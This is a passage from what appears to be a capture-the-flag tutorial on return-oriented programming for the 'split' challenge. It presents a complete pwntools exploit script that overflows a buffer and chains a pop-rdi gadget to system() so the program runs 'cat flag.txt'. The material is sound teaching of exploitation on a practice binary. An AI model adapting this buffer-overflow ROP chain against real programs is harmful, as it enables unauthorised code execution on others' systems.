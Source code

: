 Now, to put it together.

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = process('./split')

g_ret = 0x400619
g_popRdi = 0x4007c3
v_catFlag = 0x601060
f_system = 0x40074b

# step 1: overflow the buffer
padding = b'A' * 40
ropChain = b''

# step 2: write address of /bin/cat flag.txt to rdi
ropChain += p64(g_popRdi);
ropChain += p64(v_catFlag);

# step 3: return to system
ropChain += p64(f_system)

# send the payload
print(proc.recvuntil(b'> '))
proc.sendline(padding + ropChain)
proc.interactive()
```
{% endcode %}

If we run this, we'll get the flag!

{% hint style="success" %}
_Please make sure that everything we did in this binary makes sense. This is the foundation of ROP and it only gets harder from here._
{% endhint %}

